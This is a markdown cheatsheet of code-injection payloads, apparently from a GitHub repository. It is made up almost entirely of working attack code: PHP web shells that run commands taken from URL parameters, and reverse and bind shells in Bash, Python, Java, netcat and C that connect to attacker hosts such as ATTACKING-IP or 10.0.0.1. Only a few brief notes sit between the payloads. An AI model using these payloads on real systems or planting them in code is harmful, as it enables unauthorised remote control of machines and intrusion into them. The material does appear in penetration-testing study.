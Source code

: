 # Code Injection Cheatsheet
## php: 

### Execute one command
```php
<?php system("whoami"); ?>
<?php echo shell_exec("nc.exe -nlvp 4444 -C:\Windows\System32\cmd.exe");?>
```
### Take input from the url paramter. shell.php?cmd=whoami
```php
<?php system($_GET['cmd']); ?>
<?php echo shell_exec($_GET["cmd"]); ?>
<? passthru($_GET["cmd"]); ?>
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
<?php $c=$_GET[‘c’]; echo `$c`; ?>
```
### The same but using passthru
```php
<?php passthru($_GET['cmd']); ?>
```
### For shell_exec to output the result you need to echo it
```php
<?php echo shell_exec("whoami");?>
```
### preg_replace(). This is a cool trick
```php
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>
```
### Using backticks
```php
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>
```
### Using backticks
```php
<?php echo `whoami`; ?>
```
### upload nc.php
```php
<?php echo system("nc -lvp 81 -e cmd.exe");?>
```
- upload nc.exe
- run nc.php on browser

## Bash
```sh
0<&196;exec 196<>/dev/tcp/192.168.1.101/80; sh <&196 >&196 2>&196
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
bash -i >& /dev/tcp/<your ip>/<your port> 0>&1
nc -nlvp 443
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your ip> <your port> >/tmp/f
```

## Python
```py
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.0.0.1",1234));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

## Java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
## Netcat
### netcat bind shell
```sh
nc -vlp 5555 -e /bin/bash
nc 192.168.1.101 5555
```
### netcat reverse shell
```sh
nc -lvp 5555
nc 192.168.1.101 5555 -e /bin/bash
```
### With -e flag
```sh
nc -e /bin/sh <your ip> <your port>
```
### Without -e flag
```sh
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
## C
```c
#include <stdlib.h>
int main () {
system("nc.exe -e cmd.exe <myip> <myport>");
return 0;
}
```
